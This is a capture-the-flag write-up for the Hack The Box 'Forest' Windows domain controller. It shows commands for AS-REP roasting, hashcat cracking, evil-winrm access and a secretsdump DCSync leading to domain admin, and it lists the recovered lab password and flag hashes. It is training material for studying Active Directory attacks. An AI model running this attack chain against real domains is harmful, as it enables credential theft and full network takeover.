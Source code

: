 # HTB: Forest
**Windows – Easy**

---

## Engagement Overview
**Target:** Forest  
**Box IP:** 10.10.10.161  
**Local IP:** 10.10.14.2  
**Date:** 2025-07-15

---

## Objectives
Forest is an “easy” Windows Domain Controller box featuring an Active Directory environment with Exchange installed. The target allows anonymous LDAP binds for domain enumeration. By exploiting Kerberos pre-authentication misconfiguration, a TGT can be obtained and cracked offline. The compromised service account has privileges to modify Exchange group memberships, which can be escalated into full domain compromise using DCSync.

---

## Service Enumeration
```bash
nmap -p- -sC -sV -oA forest-scan 10.10.10.161
```

**Open Ports:**
- 53/tcp   – DNS
- 88/tcp   – Kerberos
- 135/tcp  – MS RPC
- 139/tcp  – NetBIOS
- 389/tcp  – LDAP
- 445/tcp  – SMB
- 464/tcp  – kpasswd
- 593/tcp  – RPC over HTTP
- 636/tcp  – LDAPS
- 3268/tcp – Global Catalog LDAP
- 3269/tcp – Global Catalog LDAPS

**Domain Info:**
- Domain: `htb.local`
- Hostname: `FOREST`
- OS: Windows Server 2016 Standard
- Forest: `htb.local`
- FQDN: `FOREST.htb.local`

**SMB Notes:**
- Message signing enabled and required
- Authentication level: user

---

## Initial Access

### Kerberos Pre-Auth Disabled

**Tool:**  
```bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
```

**Output:**  
AS-REP roastable hash for user `svc-alfresco`.

### Hash Cracking

**Tool:**  
```bash
hashcat -m 18200 -a 0 hash.txt wordlist.txt
```

**Credentials Recovered:**
- **Username:** `svc-alfresco`
- **Password:** `s3rvice`

### Shell Access

**Command:**
```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

**Result:**  
Authenticated as `svc-alfresco`. Initial foothold established.

---

## Privilege Escalation

### Active Directory Abuse

- `svc-alfresco` is a member of **Account Operators** group.
- Abuse of Exchange permissions (via `WriteDACL`) allows membership modification to privileged Exchange groups.
- Escalated to **Exchange Windows Permissions**, granting `Replicating Directory Changes All`.

### DCSync Attack

**Tool:** `impacket-secretsdump`

**Command:**
```bash
secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
```

**Result:**  
Successfully dumped NTLM hashes, including `Administrator`.

---

## House Cleaning

- No changes persisted on target.
- All tooling executed in-memory where possible.
- Removed any user-created artifacts.

---

## Post-Exploitation

**Flags Captured:**
- `user.txt`: `58fc66dc0f2af05eb1a1751186720d85`
- `root.txt`: `c0a4c2b3bd3faf59b20d049d108d7613`

**Domain Admin Achieved:** ✅

---

## Tools Utilized

- `nmap`
- `impacket-GetNPUsers`
- `evil-winrm`
- `hashcat`
- `ldapsearch`
- `secretsdump`
- [ropnop/windapsearch](https://github.com/ropnop/windapsearch)
- HTB Official Writeup
- [0xdf Forest Writeup](https://0xdf.gitlab.io/2020/03/21/htb-forest.html)

---

## Key Takeaways

- Kerberos AS-REP Roasting is a critical misconfig to identify during recon.
- LDAP enumeration and group mapping are essential on AD boxes.
- Abusing Exchange and DCSync attacks is a powerful privilege escalation path.
- Windows privesc often requires lateral movement through service accounts and trust delegation, not just binary exploitation.

---
